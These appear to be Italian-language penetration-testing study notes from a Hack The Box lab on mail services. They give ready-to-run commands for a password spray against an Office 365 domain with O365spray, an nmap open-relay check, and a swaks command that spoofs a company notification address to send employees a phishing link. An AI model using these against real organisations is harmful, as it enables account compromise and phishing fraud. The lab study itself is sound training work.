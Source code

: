 
### Password spray con O365spray
`j4k1dibe@htb[/htb]$ python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz`


### Open Relay
Possiamo abusare l'attacco Open Relay mandando email phishing come un utente non eesistente o spoofando la mail di qualcun altro. 
Per esempio, immaginiamo che stiamo attaccando un azienda con open relay mail server e identifichiamo che usano un indirizzo email spcifico per notificare i loro impiegati. Possiamo mandare una mail simile usando lo stesso indirizzo e aggiungere il nostro link di phishing con le informazioni.

Con lo script nmap smtp-open-relay possiamo verificare se SMTP permette open relay

`j4k1dibe@htb[/htb]# nmap -p25 -Pn --script smtp-open-relay 10.10.11.213`


Se lo permette possiamo usare qualsiasi mail client per connetterci al mail server e mandare le nostre email

```j4k1dibe@htb[/htb]# swaks --from notifications@inlanefreight.com --to employees@inlanefreight.com --header 'Subject: Company Notification' --body 'Hi All, we want to hear from you! Please complete the following survey. http://mycustomphishinglink.com/' --server 10.10.11.213```
